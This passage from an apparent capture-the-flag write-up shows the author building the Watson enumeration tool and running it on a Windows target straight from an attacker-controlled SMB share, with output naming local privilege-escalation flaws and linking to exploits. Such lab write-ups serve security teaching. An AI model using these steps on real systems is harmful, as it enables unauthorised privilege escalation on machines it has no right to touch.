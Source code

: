 ![1550869015761](https://0xdfimages.gitlab.io/img/1550869015761.png)

I’ll set it to 3.5 since that’s the latest that’s installed on target.

Next, I’ll go to Build –> Configuration Manager. This let’s me set the architecture (x86 vs x64) for the output binary. I’ll remember from the `systeminfo` output that it was a x64 processor, but that the OS was x86:

```

System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.         
                           [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz

```

I’ll change the Platform to x86:

![1550869563858](https://0xdfimages.gitlab.io/img/1550869563858.png)

Now I’ll go to Build –> Build Watson. In the bottom Window I should see:

![1550869614577](https://0xdfimages.gitlab.io/img/1550869614577.png)

I’ll go to that path, and get a copy of the output exe, and transfer it back to my Kali box and drop it in my `smb` folder.

#### Running It

Now I’ll run it directly from the SMB share, just like I did `nc`:

```

c:\Windows\Microsoft.NET\Framework>\\10.10.14.14\share\Watson.exe
\\10.10.14.14\share\Watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 7600
 [*] CPU Address Width: 32
 [*] Process IntPtr Size: 4
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS10-073
   [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
   [>] Exploit: https://www.exploit-db.com/exploits/36327/
   [>] Notes: None.

  [*] Appears vulnerable to MS10-092
   [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS11-046
```